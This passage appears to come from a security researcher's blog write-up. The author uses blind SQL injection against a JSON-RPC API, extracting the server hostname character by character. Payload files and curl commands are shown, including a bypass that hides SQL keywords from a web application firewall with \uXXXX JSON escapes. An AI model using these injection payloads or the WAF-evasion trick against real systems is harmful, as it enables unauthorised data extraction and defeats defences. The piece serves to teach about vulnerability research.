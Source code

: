 Not a b either… Cue the wavy time-travel lines…

```
mysql> SELECT IF(SUBSTRING(@@hostname, 1, 1) = "g", 2, 1);
+----------------------------------------------+
| IF (SUBSTRING(@@hostname, 1, 1) = "g", 2, 1) |
+----------------------------------------------+
|                                            2 |
+----------------------------------------------+
1 row in set (0.00 sec)
```

Ah! It’s a g! Now we can move on to the next character.

With my test query running fine locally, I could try it as a payload on the JSON-RPC API. Fingers crossed!

```
tom@bash:~▶ cat payload.json
{
    "jsonrpc": "2.0",
    "method": "getWidgets",
    "params": [
        "SELECT IF(SUBSTRING(@@hostname, 1, 1) = \"a\", 2, 1)"
    ]
}
tom@bash:~▶ curl -s $APIURL -d @payload.json 
<HTML><HEAD>
<TITLE>Access Denied</TITLE>
</HEAD><BODY>
<H1>Access Denied</H1>
 
You don't have permission to access "<redacted>" on this server.<P>
Reference&#32;<redacted>
</BODY>
</HTML>
```

Dammit, dammit, dammit. Those pesky WAFs are always getting in my way.

Thankfully, because the payload is JSON, I could easily obfuscate it to get around the WAF by using \uXXXX escape sequences. Crisis averted:

```
tom@bash:~▶ cat payload.json 
{
    "jsonrpc": "2.0",
    "method": "getWidgets",
    "params": [
        "\u0053ELECT \u0049F(\u0053UBSTRING(@@hostname, 1, 1) = \"a\", 2, 1)"
    ]
}
tom@bash:~▶ curl -s $APIURL -d @payload.json | gron | grep type_id
// No WAF error here; but no assets either!
```
